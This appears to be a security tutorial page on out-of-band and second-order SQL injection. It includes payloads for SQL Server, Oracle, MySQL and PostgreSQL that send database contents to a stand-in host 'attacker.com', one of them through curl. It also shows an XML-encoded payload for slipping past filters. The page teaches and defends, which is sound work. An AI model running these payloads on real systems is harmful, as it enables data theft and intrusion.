

Out-of-Band SQL Injection (OOB SQLi) is a class of SQL injection attacks where data exfiltration occurs **through external channels** rather than in the HTTP response.

<Frame caption="Out-of-Band SQL Injection">
  
</Frame>

## SQL Injection Attack Types



## How Out-of-Band SQL Injection Works

This technique is used when:

- The application does not return errors, so error-based SQL injection is unavailable.
- Boolean-based and time-based blind SQL injection are unreliable.
- The application only allows outbound connections to limited hosts.

OOB SQL injection requires that the database itself is capable of generating outbound requests, such as DNS, HTTP, or SMB requests.

The attacker injects SQL payloads that trigger the database engine to make an outbound connection to a server under the attacker's control.

Common protocols used include:

- **DNS**
- **HTTP/HTTPS**
- **SMB**, primarily in Windows environments

When the database queries an attacker-controlled domain, information, such as fragments of database output, can be encoded inside the outbound request.

## Database-Specific OOB Techniques

<Callout type="warning" title="Authorization required">
The following examples describe database features that can trigger external network activity or execute operating-system commands. Use them only in systems you own or are explicitly authorized to test. Outbound access and required privileges vary by database configuration.
</Callout>

<AccordionGroup>
  <Accordion title="Microsoft SQL Server: DNS via xp_dirtree">
    The `xp_dirtree` extended stored procedure can cause a network path to be accessed, potentially triggering DNS resolution.

    ```sql
    '; exec master..xp_dirtree '\\'+(select top 1 name from master..sysdatabases)+'.attacker.com\test' --
    ```
  </Accordion>
  <Accordion title="Oracle: HTTP via UTL_HTTP.REQUEST">
    Oracle's `UTL_HTTP.REQUEST` can make an HTTP request when the database account has the necessary privileges and network access is permitted.

    ```sql
    '|| UTL_HTTP.request('http://attacker.com/' || (SELECT banner FROM v$version WHERE ROWNUM=1)) ||
    ```
  </Accordion>
  <Accordion title="MySQL: DNS via LOAD_FILE">
    On Windows, UNC paths passed to file-related functions may cause network name resolution attempts, depending on configuration and permissions.

    ```sql
    SELECT LOAD_FILE(CONCAT('\\\\',(SELECT user()),'attacker.com\\abc'));
    ```
  </Accordion>
  <Accordion title="PostgreSQL: COPY TO PROGRAM">
    PostgreSQL's `COPY ... TO PROGRAM` feature can invoke an operating-system command when the executing role has the required privileges.

    ```sql
    COPY (SELECT current_database()) TO PROGRAM 'curl http://attacker.com/?db=$(cat)';
    ```
  </Accordion>
</AccordionGroup>

## Second-Order SQL Injection

<Accordion title="Understanding Second-Order SQL Injection" defaultOpen>
  First-order SQL injection occurs when the application processes user input from an HTTP request and incorporates the input into a SQL query in an unsafe way.

  Second-order SQL injection occurs when the application takes user input from an HTTP request and stores it for future use. This is usually done by placing the input into a database, but no vulnerability occurs at the point where the data is stored.

  Later, when handling a different HTTP request, the application retrieves the stored data and incorporates it into a SQL query in an unsafe way. For this reason, second-order SQL injection is also known as **stored SQL injection**.

  <Frame caption="Second-Order SQL Injection">
    
  </Frame>

  Second-order SQL injection often occurs in situations where developers are aware of SQL injection vulnerabilities, and so safely handle the initial placement of the input into the database.

  When the data is later processed, it is deemed to be safe, since it was previously placed into the database safely. At this point, the data is handled in an unsafe way, because the developer wrongly deems it to be trusted.
</Accordion>

## Examining the Database

Some core features of the SQL language are implemented in the same way across popular database platforms, and so many ways of detecting and exploiting SQL injection vulnerabilities work identically on different types of database.

However, there are also many differences between common databases. These mean that some techniques for detecting and exploiting SQL injection work differently on different platforms.

For example:

- Syntax for string concatenation.
- Comments.
- Batched (or stacked) queries.
- Platform-specific APIs.
- Error messages.

After you identify a SQL injection vulnerability, it's often useful to obtain information about the database. This information can help you to exploit the vulnerability.

### Database Version

You can query the version details for the database. Different methods work for different database types. This means that if you find a particular method that works, you can infer the database type.

For example, on Oracle you can execute:

```sql
SELECT * FROM v$version
```

### Database Tables

You can also identify what database tables exist and the columns they contain. For example, on most databases you can execute the following query to list the tables:

```sql
SELECT * FROM information_schema.tables
```

For additional database-specific enumeration syntax, see the [SQL Injection Cheat Sheet](/docs/Asset/SQL%20injection%20cheat%20sheet).

## SQL Injection in Different Contexts

In the previous labs, you used the query string to inject your malicious SQL payload. However, you can perform SQL injection attacks using any controllable input that is processed as a SQL query by the application.

For example, some websites take input in JSON or XML format and use this to query the database.

These different formats may provide different ways for you to [obfuscate attacks](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings#obfuscation-via-xml-encoding) that are otherwise blocked due to WAFs and other defense mechanisms.

Weak implementations often look for common SQL injection keywords within the request, so you may be able to bypass these filters by encoding or escaping characters in the prohibited keywords.

For example, the following XML-based SQL injection uses an XML escape sequence to encode the `S` character in `SELECT`:

```xml
<stockCheck>
  <productId>123</productId>
  <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>
```

This will be decoded server-side before being passed to the SQL interpreter.

<Callout type="info" title="Defensive takeaway">
> Out-of-band and second-order SQL injection highlight two separate risks: unsafe SQL construction and excessive database privileges or outbound network access. Use parameterized queries, restrict database permissions, and apply egress controls to reduce the impact of these vulnerabilities.
</Callout>